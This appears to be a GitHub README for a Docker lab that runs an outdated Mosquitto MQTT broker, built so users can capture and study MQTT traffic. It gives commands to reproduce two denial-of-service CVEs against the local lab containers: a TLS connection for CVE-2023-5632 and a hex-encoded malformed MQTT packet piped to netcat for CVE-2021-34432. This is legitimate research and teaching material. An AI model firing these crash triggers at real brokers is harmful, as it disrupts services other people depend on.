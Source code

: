 # MQTT-in-Containers
This virtual environment was created to observe and study MQTT communications, running a deprecated version of the [Mosquitto](https://mosquitto.org/) broker (version 2.0.5). There is a version with encrypted and one without encrypted traffic for you to try. We replicated two DoS attacks, namely CVE-2023-5632 and CVE-2021-34432. Further down we have included some steps on how to replicate these.

Here is a quick rundown of how to use the files in this repo:

1. We recommend you use Linux or WSL for Windows environments.
2. You need to [install Docker](https://docs.docker.com/get-started/get-docker/) to run the containers.
3. With "sudo docker compose up" you can start up all containers mentioned in the specific compose file
4. You can then capture the traffic in Wireshark for example, although finding the correct interface is not always easy.
5. The ip adresses for the encrypted setup are static, you can change it in the compose file if needed. 
6. Play around with different settings, creating your own certificates (if you dare), topics etc. 

Note: The password for any certificate file is "test"

CVE-2023-5632 <br>
This CVE works with the encrypted Broker. To trigger the exploit all you need is the following command. The ip adress is static and should work unless you changed it:<br>
```openssl s_client -connect 172.23.0.2:8883```<br>
It might be beneficial to limit the number of cpu cores of your testing enviroment. For WSL this can be done in the WSL settings.<br>
CVE-2021-34432<br>
This command only works with the unencrypted broker and if allow_anonymous is set to true in the mosquitto.conf file. But could also be replicated for the encrypted broker if you are able to sucessfully authenticate a package with topic length 0.<br>
```echo 102b00044d5154540500003c0822000a110000000f00166d7174746f6f6c732d383739363736313532303132393d0900000621000a220005e000 | xxd -p -r | nc localhost 1883```

